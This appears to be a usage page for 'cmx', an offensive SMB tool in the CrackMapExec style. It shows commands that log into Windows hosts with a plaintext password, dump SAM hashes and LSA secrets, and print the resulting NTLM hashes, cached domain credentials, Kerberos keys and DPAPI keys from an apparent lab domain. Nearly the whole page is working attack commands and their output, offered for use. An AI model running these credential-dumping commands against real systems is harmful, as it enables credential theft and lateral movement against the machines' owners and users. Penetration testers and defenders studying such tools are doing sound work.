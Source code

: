 ### \*Dump SAM hashes using methods from secretsdump.py 

| Multiple_Host | Requires DC | Requires LA | Requires DA | Opsec_safe |
|---------------|-------------|-------------|-------------|------------|
| true          | false       | true        | false       | true*      |

```
#~  cmx smb 10.10.33.123-124 -u agrande -p User\!23 --sam

Aug.20.19 15:55:28  SMB         10.10.33.124:445  10.10.33.124 [*] Windows 7 Ultimate 7601 Service Pack 1 x64 (domain:OCEAN) (signing:False) (SMBv:1)
Aug.20.19 15:55:28  SMB         10.10.33.123:445  10.10.33.123 [*] Windows 6.1 Build 7601 x64 (domain:OCEAN) (signing:True) (SMBv:2.1)
Aug.20.19 15:55:28  SMB         10.10.33.124:445  10.10.33.124 [+] OCEAN\agrande:User!23 (Pwn3d!)
Aug.20.19 15:55:28         [!] Dumping SAM hashes [!]
Aug.20.19 15:55:28  SMB         10.10.33.123:445  10.10.33.123 [+] OCEAN\agrande:User!23 (Pwn3d!)
Aug.20.19 15:55:28         [!] Dumping SAM hashes [!]
Aug.20.19 15:55:30  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Aug.20.19 15:55:30  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Aug.20.19 15:55:30  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Aug.20.19 15:55:30  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Aug.20.19 15:55:30  Win7P:1000:aad3b435b51404eeaad3b435b51404ee:7ef966657ac6efcd0692cef758f4deb9:::
Aug.20.19 15:55:30         [!] Added 3 SAM hashes to the database [!]
Aug.20.19 15:55:30         [!] Saved 3 hashes to ~/.cmx/logs/WIN7P-PC_10.10.33.124_2019-08-20_155530.sam [!]
Aug.20.19 15:55:30  Win7E:1000:aad3b435b51404eeaad3b435b51404ee:7ef966657ac6efcd0692cef758f4deb9:::
Aug.20.19 15:55:30         [!] Added 3 SAM hashes to the database [!]
Aug.20.19 15:55:30         [!] Saved 3 hashes to ~/.cmx/logs/WIN7E-PC_10.10.33.123_2019-08-20_155530.sam [!]
```

------------------------------------------------------------------------
### \*Dump LSA secrets using methods from secretsdump.py 

| Multiple_Host | Requires DC | Requires LA | Requires DA | Opsec_safe |
|---------------|-------------|-------------|-------------|------------|
| true          | false       | true        | false       | true*      |

```
#~ cmx smb 10.10.33.123 -u agrande -p User\!23 --lsa

Aug.20.19 15:53:43  SMB         10.10.33.123:445  10.10.33.123 [*] Windows 6.1 Build 7601 x64 (domain:OCEAN) (signing:True) (SMBv:2.1)
Aug.20.19 15:53:43  SMB         10.10.33.123:445  10.10.33.123 [+] OCEAN\agrande:User!23 (Pwn3d!)
Aug.20.19 15:53:43         [!] Dumping LSA Secrets [!]
Aug.20.19 15:53:45  OCEAN.DEPTH/agrande:$DCC2$10240#agrande#6ee787a8c20b17e48fde84e8af8d1674
Aug.20.19 15:53:45  OCEAN.DEPTH/ozzy:$DCC2$10240#ozzy#c2d829b4ae6ca6dba48ea7fa9986ee19
Aug.20.19 15:53:46  OCEAN\WIN7E-PC$:aes256-cts-hmac-sha1-96:d7b6c0a0913d3c1b155d5cb1cede486611539bf320a459a32c63116598c9b7b0
Aug.20.19 15:53:46  OCEAN\WIN7E-PC$:aes128-cts-hmac-sha1-96:2a085aa1630ce804a0d78c9cddd55bc2
Aug.20.19 15:53:46  OCEAN\WIN7E-PC$:des-cbc-md5:d368c1c20898f44f
Aug.20.19 15:53:46  OCEAN\WIN7E-PC$:aad3b435b51404eeaad3b435b51404ee:2d3b04ef5f2dee295d2ba35ab55e2147:::
Aug.20.19 15:53:46  dpapi_machinekey:0xd61ff0e849d40a2705d6d2da6dd26bddfa830ef5
dpapi_userkey:0xa142738f797c7b20b096fddfef2eeff0dce96da6
Aug.20.19 15:53:46  NL$KM:e8b744812f400fb5041390eb16f23eeb8448799fac5d1802d618a96f4051b00db12202e6eb586f97e0c561df6477e4e6312ec55070ac4a7807a47b98fb3db947
Aug.20.19 15:53:46         [!] Saved 8 LSA secrets to /root/.cmx/logs/WIN7E-PC_10.10.33.123_2019-08-20_155343.secrets [!]
```
